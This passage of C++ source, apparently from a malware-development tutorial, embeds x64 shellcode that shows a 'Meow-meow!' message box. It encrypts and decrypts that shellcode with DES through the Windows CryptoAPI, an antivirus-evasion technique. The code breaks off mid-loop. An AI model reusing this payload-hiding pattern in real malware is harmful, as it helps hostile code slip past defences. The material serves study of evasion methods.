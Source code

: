 ```cpp

int main() {
  DWORD block_len = 8;
  HCRYPTPROV hProv;
  HCRYPTKEY hKey;
  unsigned char key[] = "\x6d\x65\x6f\x77\x6d\x65\x6f\x77";
  DWORD key_size = sizeof(key);
  HCRYPTHASH hHash;
  unsigned int dec_payload_len = 305;

  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  unsigned char enc_payload[my_payload_len + (block_len - (my_payload_len % block_len))];
  unsigned char dec_payload[my_payload_len];

  CryptAcquireContext(&hProv, NULL, NULL, PROV_RSA_AES, 0);
  CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash);
  CryptHashData(hHash, key, key_size, 0);
  CryptDeriveKey(hProv, CALG_DES, hHash, 0, &hKey);
  CryptReleaseContext(hProv, 0);

  printf("key:\n");
  for (int i = 0; i < sizeof(key); i++) {
    printf("0x%02x, ", key[i]);
  }
  printf("\n\n");

  encrypt_des(my_payload, enc_payload, my_payload_len, hKey);

  printf("encrypted:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("0x%02x, ", enc_payload[i]);
  }
  printf("\n\n");

  decrypt_des(enc_payload, dec_payload, my_payload_len, hKey);

  printf("decrypted:\n");
  for (int i = 0; i < my_payload_len - 1; i++) {
```